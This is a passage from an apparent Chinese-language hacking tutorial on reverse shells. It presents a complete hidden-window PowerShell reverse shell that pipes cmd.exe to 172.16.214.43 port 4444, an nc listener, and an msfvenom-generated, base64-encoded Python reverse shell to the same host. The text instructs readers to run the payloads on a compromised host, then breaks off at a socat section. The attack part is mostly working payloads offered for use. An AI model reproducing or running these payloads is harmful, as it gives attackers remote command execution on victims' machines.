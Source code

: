     powershell -w hidden -nop -c $a='172.16.214.43';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}  
      
    > nc -lvp 4444

将生成的 payload 复制到失陷主机上运行，即可收到反弹回的 shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204333.png)

再比如使用 `cmd/unix/reverse_python` 这个payload

    
    
    # 控制端  
    > msfvenom -p cmd/unix/reverse_python lhost=172.16.214.43 lport=4444  
    [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload  
    [-] No arch selected, selecting arch: cmd from the payload  
    No encoder specified, outputting raw payload  
    Payload size: 505 bytes  
    python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICwgc3VicHJvY2VzcyAgICwgb3M7ICAgICAgaG9zdD0iMTcyLjE2LjIxNC40MyI7ICAgICAgcG9ydD00NDQ0OyAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICwgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICBzLmNvbm5lY3QoKGhvc3QgICAsIHBvcnQpKTsgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsIDApOyAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgMSk7ICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAyKTsgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=')[0]))"  
      
    > nc -lvp 4444

同样将生成的 payload 复制到失陷主机上运行，即可收到反弹回来的 shell，当然前提是目标主机安装了 python

## 3、socat 使用

socat 下载地址：http://www.dest-unreach.org/socat/，或者直接使用 `apt-get install socat`
安装，Mac 可使用 `brew install socat` 安装。

socat 全称 socket cat，可以视为 nc 的加强版，不过平时感觉 nc 也够用了，但是 nc 现在貌似会被杀软杀掉，而且貌似 nc
很久没更新了，反正多掌握点知识没坏处。

### 文件操作
